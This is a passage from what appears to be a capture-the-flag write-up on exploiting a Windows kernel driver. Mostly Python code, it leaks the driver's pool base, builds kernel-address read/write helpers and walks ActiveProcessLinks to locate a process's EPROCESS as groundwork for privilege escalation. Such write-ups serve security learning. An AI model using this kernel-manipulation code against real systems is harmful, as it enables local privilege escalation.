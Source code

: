 There's nothing really fancy, it only converts our offsets to the indexes that the km part would eventually convert to offsets by itself.

Now in order to account for the allocated pool address in our calculations we first need to know its address, and luckily for us the driver has saved the pool base at (pool + 64), so we can just read this value and thus we would leak the pool address.

```py
secret_store_base: int = read_at(64)
```

I also made these utils that automatically convert virtual kernel addresses to the offsets from our pool and write/reads from this address.

```py
def read_at_va(va: int) -> int:
    return read_at(va - secret_store_base)


def write_to_va(va: int, val: int) -> None:
    write_to(va - secret_store_base, val)
```

In order to obtain the eprocess address of some of the system processes we could just use PsInitialSystemProcess export from ntoskrnl that we have on our hands.

```py
PsInitialSystemProcess_off = 0xD107E0
PsInitialSystemProcess = read_at_va(kernel_base + PsInitialSystemProcess_off)
```

We also need to find our process' eprocess. \
In order to achieve that  we can iterate over the ActiveProcessLinks of the system process, because this process is going to be the root system process that every other process inherits.

```py
ActiveProcessLinks_off = 0x448
Pid_off = 0x440

def get_process(tgt_pid: int) -> int:
    links = PsInitialSystemProcess + ActiveProcessLinks_off
    head = links

    while True:
        links = read_at_va(links + 8)
        print('[*] links', hex(links))

        if links == head:
            print('[!] LINKS == HEAD')
            break

        eprocess = links - ActiveProcessLinks_off
        print('[*] eprocess', hex(eprocess))

        pid = read_at_va(eprocess + Pid_off)
        if pid != tgt_pid:
            continue

        return eprocess

    return 0


target_eprocess = get_process(process_id)
```
